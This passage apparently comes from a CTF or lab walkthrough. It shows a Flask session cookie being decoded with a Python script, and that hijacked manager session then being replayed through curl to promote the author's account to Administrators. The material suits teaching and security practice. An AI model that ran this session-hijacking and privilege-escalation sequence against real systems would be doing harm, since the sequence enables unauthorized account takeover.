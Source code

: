 In the portal, I could not find any informations if this user is a manager or not, so I collected this user `session` , decode it using this script:

```bash
import base64, zlib, json

def decode_flask_cookie(cookie: str):
    data = cookie.lstrip(".")
    padded = data + "=" * ((4 - len(data) % 4) % 4)
    raw = base64.urlsafe_b64decode(padded)
    decoded = zlib.decompress(raw)
    return json.loads(decoded.decode())

cookie = ".eJw1jklOQzEQRO_iNUKe3Z0VF-AMUbsHiPhD5J8sAHF3HCGWXaVX_b7d2YYe7-50G3d9cueLuJOr6gm7eOCGGKSn1DB19A0CRPAmXihKb91nqC2RMXAxZcPsS6tckFNJjYVqi1mkR8Lic_Yp1WohZWpWgmIpLRhwB9GQs4DHUkWF3RS5Hzr-bOI8-Rh2vu0fuj0CnUtATCFHqNAzUKgIKJI4itiUpIxmk9OVLstEbp-Ljhdav3gf1-dlZ1pmO_ZFZ_lKG73pOGby-LrRqv-I-_kFOAxV-g.aKLAfA.gxzact6ymgfkyBmQcQ2jjuDyaYg"

payload = decode_flask_cookie(cookie)

print(json.dumps(payload, indent=4, ensure_ascii=False))
```

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ python3 decode.py 
{
    "_fresh": true,
    "_id": "6e0a9bd08c7991db33793b907818280fd0da2db7b048673afc8c5fecf940576c59c3537cda6724ddb2a9504403366f134a7f51e95571f8cb8de144d80956dedc",
    "_user_id": "2",
    "csrf_token": "2e4038aca142868b48a16989dd3c2ddf182a49ff",
    "email": "tyler@amzcorp.local",
    "role": "Managers",
    "username": "tyler"
}

```

Okay, now I know this user is a manager, I use this user session to edit my role up to Administrators:

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ curl -s http://jobs.amzcorp.local/api/v4/users/edit -d '{"update_user": "'$(echo '{"username":"testquan","email":"testquan@gmail.com","role":"Administrators"}' | base64 -w0
)'"}' -b 'api_token=98d7f87065c5242ef5d3f6973720293ec58e434281e8195bef26354a6f0e931a1fd50a72ebfc8ead820cb38daca218d771d381259fd5d1a050b6620d1066022a' -b 'session=.eJw1jklOQzEQRO_iNUKe3Z0VF-AMUbsHiPhD5J8sAHF3HCGWXaVX_b7d2YYe7-50G3d9cueLuJOr6gm7eOCGGKSn1DB19A0CRPAmXihKb91nqC2RMXAxZcPsS6tckFNJjYVqi1mkR8Lic_Yp1WohZWpWgmIpLRhwB9GQs4DHUkWF3RS5Hzr-bOI8-Rh2vu0fuj0CnUtATCFHqNAzUKgIKJI4itiUpIxmk9OVLstEbp-Ljhdav3gf1-dlZ1pmO_ZFZ_lKG73pOGby-LrRqv-I-_kFOAxV-g.aKLAfA.gxzact6ymgfkyBmQcQ2jjuDyaYg' -H 'Content-Type: application/json'  
{
  "success": "User updated successfully"
}
```
